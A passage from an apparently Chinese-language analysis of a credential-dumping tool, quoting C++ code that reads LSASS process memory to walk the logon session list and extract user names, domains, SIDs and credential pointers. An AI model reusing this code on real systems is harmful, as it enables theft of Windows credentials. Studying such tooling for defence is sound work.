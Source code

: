 ### 2.2.2 枚举用户信息

在 `EnumerateLSA()` 函数中定义了以下部分代码，用于枚举用户信息。

```c++
if (cLsass.osContext.BuildNumber < WIN_MIN_BUILD_2K3)
	helper = &lsassEnumHelpers[0];
else if (cLsass.osContext.BuildNumber < WIN_MIN_BUILD_VISTA)
	helper = &lsassEnumHelpers[1];
else if (cLsass.osContext.BuildNumber < WIN_MIN_BUILD_7)
	helper = &lsassEnumHelpers[2];
else if (cLsass.osContext.BuildNumber < WIN_MIN_BUILD_8)
	helper = &lsassEnumHelpers[3];
else if (cLsass.osContext.BuildNumber < WIN_MIN_BUILD_BLUE)
	helper = &lsassEnumHelpers[5];
else
	helper = &lsassEnumHelpers[6];

ReadProcessMemory(cLsass.hProcess, LogonSessionListCount, &nbListes, sizeof(ULONG), NULL);
for (i = 0; i < nbListes; i++)
{
	if (aBuffer.address = LocalAlloc(LPTR, helper->tailleStruct))
	{
		if (ReadProcessMemory(cLsass.hProcess, &LogonSessionList[i], &pStruct, sizeof(PVOID), NULL))
		{
			while (pStruct != &LogonSessionList[i])
			{
				if (ReadProcessMemory(cLsass.hProcess, pStruct, aBuffer.address, helper->tailleStruct, NULL))
				{
					sessionData.LogonId = (PLUID)((PBYTE)aBuffer.address + helper->offsetToLuid);
					sessionData.LogonType = *((PULONG)((PBYTE)aBuffer.address + helper->offsetToLogonType));
					sessionData.Session = *((PULONG)((PBYTE)aBuffer.address + helper->offsetToSession));
					sessionData.UserName = (PUNICODE_STRING)((PBYTE)aBuffer.address + helper->offsetToUsername);
					sessionData.LogonDomain = (PUNICODE_STRING)((PBYTE)aBuffer.address + helper->offsetToDomain);
					sessionData.pCredentials = *(PVOID*)((PBYTE)aBuffer.address + helper->offsetToCredentials);
					sessionData.pSid = *(PSID*)((PBYTE)aBuffer.address + helper->offsetToPSid);
					sessionData.pCredentialManager = *(PVOID*)((PBYTE)aBuffer.address + helper->offsetToCredentialManager);
					sessionData.LogonTime = *((PFILETIME)((PBYTE)aBuffer.address + helper->offsetToLogonTime));
					sessionData.LogonServer = (PUNICODE_STRING)((PBYTE)aBuffer.address + helper->offsetToLogonServer);

					GetUnicodeString(sessionData.UserName, cLsass.hProcess);
					GetUnicodeString(sessionData.LogonDomain, cLsass.hProcess);
					GetUnicodeString(sessionData.LogonServer, cLsass.hProcess);
					GetSid(&sessionData.pSid, cLsass.hProcess);

					LsaLogonData(&sessionData);

					// LocalFree...

					pStruct = ((PLIST_ENTRY)(aBuffer.address))->Flink;
				}
				else 
					break;
			}
```
